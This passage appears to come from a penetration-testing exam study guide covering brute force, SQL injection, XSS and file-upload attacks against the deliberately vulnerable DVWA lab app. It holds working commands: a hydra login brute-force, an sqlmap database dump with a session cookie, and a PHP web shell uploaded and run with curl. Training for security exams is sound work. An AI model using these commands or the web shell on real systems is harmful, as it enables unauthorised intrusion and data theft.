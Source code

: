 ```
curl http://10.10.10.10/uploads/shell.php?cmd=id

```

  

### Exam-Critical Reference Table

  

| Attack Type   | Tool           | Command Example                | Detection Method          |

| ------------- | -------------- | ------------------------------ | ------------------------- |

| Brute Force   | Hydra          | `http-post-form` target syntax | Failed login monitoring   |

| SQL Injection | SQLmap         | `--risk=3 --level=5`           | WAF rule analysis         |

| XSS           | Manual Testing | `<script>alert()</script>`     | Input sanitization checks |

| File Upload   | cURL           | `-F` for form submission       | MIME type verification    |

  

### Practical Exam Checklist

  

1. Discover hidden directories with Gobuster

2. Brute force admin credentials

3. Test for SQLi/XSS vulnerabilities

4. Exploit file upload functionality

5. Document all findings with screenshots

  

### Pro Tips:

  

- **Always check**: `/robots.txt` and `/.git/` for sensitive info

- **Critical parameters**: `id`, `search`, `username`, `file`

- **Exam trick**: Chain `gobuster` + `sqlmap` for quick wins

- **Must-know headers**: `X-Forwarded-For`, `User-Agent`

  

### Real-World Exam Lab

```

# Task: Compromise DVWA (Low Security)

  

1. gobuster dir -u http://10.10.10.10/dvwa -w wordlist.txt

2. hydra -l admin -p password http-get-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:S=logout" -vV

3. sqlmap -u "http://10.10.10.10/dvwa/vulnerabilities/sqli/?id=1" --cookie="PHPSESSID=abc123" --dbs

4. echo "<?php system(\$_GET['cmd']); ?>" > shell.php && curl -F "upload=@shell.php" http://10.10.10.10/dvwa/vulnerabilities/upload/

```

